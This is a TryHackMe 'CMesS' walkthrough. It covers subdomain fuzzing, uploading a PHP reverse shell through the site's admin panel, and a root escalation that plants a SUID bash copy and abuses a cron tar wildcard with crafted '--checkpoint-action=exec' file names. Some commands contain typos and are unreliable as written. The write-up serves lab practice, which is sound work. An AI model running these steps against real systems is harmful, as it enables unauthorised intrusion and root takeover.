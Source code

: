 ```yaml
---
title: CMesS WalkThrough
permalink: /cmess
layout: page
tags: TryHackMe
---
```

# CMesS
# ![front](/images/cmess/front.png)
[https://tryhackme.com/room/cmess](https://tryhackme.com/room/cmess)

**Add ipi cmess.th to `/etc/hosts`**
## Open Ports:
* 22- SSH
* 80- HTTP

![ports](/images/cmess/ports.png)

## Gaining Access:
### Port 80-
1. Do `wfuzz` _for subdomain enum_
```
wfuzz -c -f sub-fighter -w /usr/share/wfuzz/wordlist/top5000 -u 'http://cmess.thm' -H "Host: FUZZ.cmess.thm"
```
**To sort the output**
```
wfuzz -c -f sub-fighter -w /usr/share/wfuzz/wordlist/top5000 -u 'http://cmess.thm' -H "Host: FUZZ.cmess.thm" --hw 290
```
![wfuzz](/images/cmess/wfuzz.png)
1. Add ip dev.cmess.thm to /etc/hots <br>
	a. Find email<br> 
 	b. Password
1. Do dirb <br>
	a. Found ip/admin page
1. login <br>
 	a. Go to content / file / upload <br>
 	b. upload
1. go to ip/assests/php-rev
1. Upload linEum.sh<br>
 a. Found /opt/password.bak<br>
![bak](/images/cmess/bak.png)

### User Flag:
![flag](/images/cmess/flag.png)

## Priviledge Escalation
```
cat /etc/crontab
```
![cron](/images/cmess/cron.png)
```
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/andru/shell.sh
Chmod +x  shell.sh
```
**Tar specific commands:**
* Touch /home/user/--checkpoint=1
* Touch /home/user/--checkpoint-action=exec=sh\shell.sh
 **_wait for min_**
* /tmp/bash -p

### ROOT Flag:
![root](/images/cmess/root.png)
